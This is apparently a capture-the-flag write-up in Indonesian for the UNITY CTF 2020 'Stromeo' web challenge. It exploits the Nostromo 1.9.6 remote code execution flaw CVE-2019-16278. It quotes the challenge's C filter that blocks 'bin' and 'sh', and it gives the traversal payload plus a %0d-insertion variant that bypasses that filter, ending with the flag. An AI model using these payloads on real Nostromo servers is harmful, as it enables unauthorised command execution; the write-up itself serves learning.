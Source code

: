 ```yaml
---
title: WEB - [Stromeo] UNITY CTF
Kategori: "Web Exploitation"
year: "2020"
author: "sawontene."
published: true
---
```


# Web Exploitation (Author : sawontene.)

![Soal Stromeo](./web/stromeo-soal.png)

Diberikan sebuah link dan file httpd.zip. Setelah kami analisa terdapat clue pada header, dimana web tersebut menggunakan server **Nostromo 1.9.6** yang memiliki Vulnerability terhadap Remote Code Execution (​ CVE-2019-16278​).
![Nostromo](./web/nostromo.png)

Kami mencoba eksploitasi menggunakan [script python](https://github.com/sudohyak/exploit/blob/master/CVE-2019-16278/exploit.py) namun mendapat respon 400 Bad request.

Di dalam file **httpd.zip** terdapat file **http.c** dimana ketika kita menganalisa, request yang menggunakan kata **bin** dan **sh** akan di filter sehingga tidak bisa dieksploitasi.
```
/* check for valid uri */
if (strstr(header, "/../") != NULL || strstr(header, "bin") != NULL || strstr(header, "sh") != NULL) {
    h = http_head(http_s_400, line, cip, 0);
    b = http_body(http_s_400, "", h, 0);
    c[sfd].pfdo++;
    c[sfd].pfdn[hr] = 1;
    c[sfd].pfdh[hr] = strdup(b);
    c[sfd].x_ful[hr] = 1;
    c[sfd].x_chk[hr] = 0;
    c[sfd].x_sta = 0;
    free(h);
    free(b);
    return (0);
}
```

Kita coba membypass kondisi tersebut, dengan payload yang semula

`POST /.%0d./.%0d./.%0d./.%0d./bin/sh`

kemudian kita ubah payload **/bin/sh** dengan menambahkan **%0d** sehingga menjadi

`POST /.%0d./.%0d./.%0d./.%0d./b%0di%0dn/s%0dh`

dan setelah kita mencoba menjalankan script tersebut kembali, benar saja filter tersebut berhasil terbypass.

![Eksploitasi Nostromo](./web/nostromo-rce.png)

`Flag: UNITY2020{Bj1r_CVE-2019-16278_M00m3nt}` 
